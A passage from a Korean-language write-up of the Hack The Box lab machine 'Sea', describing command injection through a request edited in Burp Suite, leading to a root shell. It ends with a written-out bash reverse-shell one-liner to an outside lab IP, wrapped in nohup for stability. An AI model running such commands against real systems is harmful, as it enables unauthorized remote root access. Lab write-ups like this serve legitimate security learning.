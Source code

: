 이 부분을 이용하기 위해 burpsuite로 리퀘스트를 수정.

커맨드 인젝션을 테스트해봤다.

![burp](/assets/img/writeup/HTB/sea/burp.png)

`+`는 띄어쓰기를 의미하고 burp에서 원하는 부분을 드래그 후 `ctrl + u`로 간단하게 url 인코딩 할 수 있다.

![text](/assets/img/writeup/HTB/sea/text.png)

위와 같이 리퀘스트를 보내면 커맨드가 실행됐다는 걸 확인 할 수 있다.

리버스쉘 커맨드를 입력하고 리퀘스트를 보내면 root로 쉘이 연결된다.

이때 쉘이 불안정해서 자꾸 끊기는데, 아래와 같이 맨 처음과 맨 마지막에 `nohup`과 `&`를 추가하면 고쳐진다.

`nohup bash -i >& /dev/tcp/10.10.14.8/9001 0>&1 &`